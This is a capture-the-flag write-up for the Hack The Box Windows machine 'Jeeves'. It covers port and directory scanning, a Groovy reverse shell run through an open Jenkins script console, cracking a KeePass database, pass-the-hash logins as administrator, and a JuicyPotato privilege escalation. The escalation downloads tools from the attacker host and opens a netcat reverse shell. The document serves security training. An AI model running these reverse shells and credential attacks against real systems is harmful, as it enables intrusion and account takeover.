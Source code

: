 ```yaml
---
date: 2025-03-02
categories: [Windows, Medium]
---
```


![Jeeves](https://labs.hackthebox.com/storage/avatars/709059a710d3d6ff1ba32bf0729ecbb8.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [mrb3n](https://app.hackthebox.com/users/2984)        | [Hack The Box](https://www.hackthebox.com/)     | Medium           | Windows   |

---








- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.

	```python
	nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.10.63 -oG scan
	/opt/extractports scan
	nmap -p80,135,445,50000 -Pn -sCV 10.10.10.63 -oN ports
	```
	
	![image](https://github.com/user-attachments/assets/5b5bd64b-3165-44ba-8d2d-fb83485002bf)

- Searching through the website I can't find anything, it's too simple. 

	![image](https://github.com/user-attachments/assets/e957712f-9e93-4e4f-8ad2-12a9e2e4fad3)

- I decide to list directories and find one, “askjeeves”. When I enter this one I find a jenkis service that I don't need to provide credentials to enter.

	```python
	gobuster dir -u http://10.10.10.63:50000/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -f -t 200
	```
	
	![image](https://github.com/user-attachments/assets/c295c224-cc23-478b-8e3e-04f528418d2b)

- Inside this one I move to the scripts section to run a [revershell](https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy).

	```python
	String host="10.10.14.8";
	int port=4444;
	String cmd="cmd.exe";
	Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
	```

	![image](https://github.com/user-attachments/assets/fafb1384-2afc-413c-9594-0b7c0fbc9d6b)

- Once inside the system, I can read the first flag.

	![image](https://github.com/user-attachments/assets/6c4de4c3-624d-400b-a3a1-a515d1ed7ae3)

- Looking through the user's files I find inside “Documents” a .kdbx file. I pass it to my system, with keepass2john I extract its hash and I manage to break it.
	
  ![image](https://github.com/user-attachments/assets/d63c3bdf-3ff5-45c9-877e-00fec9e7423e)
	
	```python
	keepass2john CEH.kdbx > hash
	john hash --wordlist=/usr/share/wordlists/rockyou.txt 
	```
	
	![image](https://github.com/user-attachments/assets/842596be-1455-4a8b-9526-cf053259028e)

- Inside this file I find several users and passwords. One of the passwords has the hash format nt. I validate which user it belongs to and I see that it is that of the administrator user. 

	![image](https://github.com/user-attachments/assets/b5ccdb56-785a-402a-81dd-3bbe276c27f0)
	
	```python
	netexec smb 10.10.10.63 -u usernames -H aad3XXXXXXXXXXXXXXXXX04ee:e0fb1fXXXXXXXXXXXXXXXXXXXXXxfe00
	```
	
	![image](https://github.com/user-attachments/assets/de664dbf-8a7d-4389-b1f6-dea783640c0a)

- I connect as this user making a PtH

```python
impacket-smbclient administrator@10.10.10.63 -hashes e0fb1fb85756c24235ff238cbe81fe00:e0fb1fb85756c24235ff238cbe81fe00
```

- After searching for a long time I find that the second flag is hidden. I can see it thanks to the following command.
	
	```python
	dir /R
	```
	
	![image](https://github.com/user-attachments/assets/faa2ae2e-a1ac-4167-96c1-0d9db4485474)

- There are several ways to read the hidden file. A couple of them are as follows.
	
	```python
	more < hm.txt:root.txt
	# or 
	powershell Get-Content -Path "hm.txt" -Stream "root.txt"
	```

---

- This is one way to resolve the machine but being the user kohsuke there is another way to escalate privileges.

	![image](https://github.com/user-attachments/assets/89f288dd-5ba7-4aae-ae05-7bbbc529b168)

- If we look at the privileges that this user has, we can see that he has the “SeImpersonatePrivilege” enabled. Thanks to this privilege I can get an interactive console as nt autority. To achieve this we can make use of [JuicyPotatoypo](https://github.com/ohpe/juicy-potato).
	
	```python
	powershell -Command "Invoke-WebRequest http://10.10.14.8:8000/JuicyPotato.exe -OutFile C:\Temp\JuicyPotato.exe"
	powershell -Command "Invoke-WebRequest http://10.10.14.8:8000/nc.exe -OutFile C:\Temp\nc.exe"
	
	
	c:\Temp\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\Temp\nc.exe 10.10.14.8 8445 -e cmd.exe" -t *
	```
	
	![image](https://github.com/user-attachments/assets/fc13e991-ca9a-4f57-a352-e387c440327d)

- With this way we get to the same point as with the other way but it is interesting to know other techniques to escalate our privileges.

